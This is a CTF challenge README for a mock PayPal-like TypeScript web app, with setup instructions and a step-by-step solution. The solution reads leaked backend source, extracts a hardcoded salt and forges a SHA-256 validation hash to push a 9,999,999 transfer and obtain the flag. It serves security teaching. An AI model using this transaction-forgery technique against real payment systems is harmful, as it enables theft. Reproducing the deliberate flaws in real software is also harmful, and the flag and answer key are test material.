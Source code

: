 # PayMeYourMoney
PayPal'ish web CTF challenge.

## Description:

A successful deal is the one where your money always reaches its destination. That is why you should to use our payment system! We **type of** love using new technologies there. For sure, you'll love it!

## Setup:
**Option 1**: Using Docker
1) Build the docker image:
```bash
docker build -t <your username>/pay-me-your-money .
```
2) Run the container:
```bash
docker run -p 2012:2012 -d <your username>/pay-me-your-money
```
3) Connect via your browser to http://127.0.0.1:2012/

**Option 2**: Host directly using Node
1) Enter **PayMeYourMoney** cloned directory.
2) Install dependencies:
```bash
npm install
```
3) Run:
```bash
node ./dist/index.js
```
Note, that you should **not** run it directly from the *dist* folder. 

4) Connect via your browser to http://127.0.0.1:2012/

## Solution:
1) There is a hint the website's footer:
```
We type of love using new technologies...
```
It refers to **TypeScript**, which is compiled strongly typed JavaScript.

2) We know that TypeScript uses **.ts** file extensions. So, we check if the router was configured properly:
```
http://127.0.0.1:2012/index.ts
```
Gotcha! Now we have backend's sources!

3) Let's invistigate **the router**. We have its path from index.ts:
```
http://127.0.0.1:2012/components/app/controllers/router.ts
```

4) It looks like the only check for user's balance is in ```router.post("/confirm"...```:
```TypeScript
if (+amount > card.balance) {
    new StatusView("Not enough money!", "Sorry, but you can not give more than you have...").render(response);
    return;
}
```

But the actual transaction happens in ```router.post("/pay"...```!

5) We cannot simply call */pay*, because it checks for a validation hash sum generated by */confirm*. But since we have its sources, we are able to generate the transaction signature ourselves!
```TypeScript
const hasher = Crypto.createHash("sha256");
const hash = hasher.update(
    (+from + +to).toString() + to.toString() + card.transactions +
    amount + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```

6) Let's try it. Firstly, we create a new account. Then, we add another card to it. (We can enable **Add Card** button by inspecting the HTML element).
```HTML
<form action="/addcard" method="post">
    <input type="hidden" name="name" value="Personal Card">
    <button class="add-card">Add Card</button>
</form>
```
You can even change the card's name if you want to.

7) Remembering the new card's ID(in our example it's **8797 1237 1586 5698**), we go to the **transfer** page. Let us send some money to our new card!

8)  Now we have this form:
```HTML
<form action="/pay" method="post">
    <input type="hidden" name="from" value="9875910160063706">
    <input type="hidden" name="to" value="8797123715865698">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="validation" value="d661800d00a65f27fb942cdfb44a4831b6c25e30a2d38ae3918467bed43e72ab">
    <button type="submit">Confirm</button>
</form>
```

Here we change the amount and the validation using the hash function. Let it be 9,999,999.
```JavaScript
const c = require("crypto");
const hasher = c.createHash("sha256");
const hash = hasher.update(
    (+"9875910160063706" + +"8797123715865698").toString() + "8797123715865698".toString() + "0" +
    "9999999" + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```
Note, that we set ```card.transactions``` to ```0``` since it was a newly created card and it does not have any transactions yet.
```bash
> hash
'25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631'
```

1) Now we send the modified form:
```HTML
<input type="hidden" name="amount" value="9999999">
<input type="hidden" name="validation" value="25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631">
```

10) Success!
You successfuly transfered 9999999!

11)  To get the flag you should go to **FlagsStore**. It can be found in *Advertisements Section* in the right bottom of the *profile* page.

12) Now we have enough money to buy the flag!
```
You did it!
Enjoy your flag: ELON{4lw4y5_pr073c_y0ur_5rc_4nd_7r4n54c710n5}.
```